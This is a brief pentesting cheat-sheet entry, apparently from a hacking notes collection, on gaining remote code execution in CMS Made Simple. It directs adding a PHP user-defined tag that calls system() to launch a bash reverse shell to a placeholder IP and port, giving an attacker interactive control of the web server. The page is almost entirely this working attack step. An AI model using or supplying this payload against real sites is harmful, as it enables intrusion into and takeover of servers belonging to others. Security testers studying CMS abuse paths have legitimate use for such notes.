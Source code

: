 # CMS Made Simple (CMSMS)

## RCE&#x20;

Go to **Extensions->User Defined Tags->user\_agent** and add:

```php
echo system("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");
```



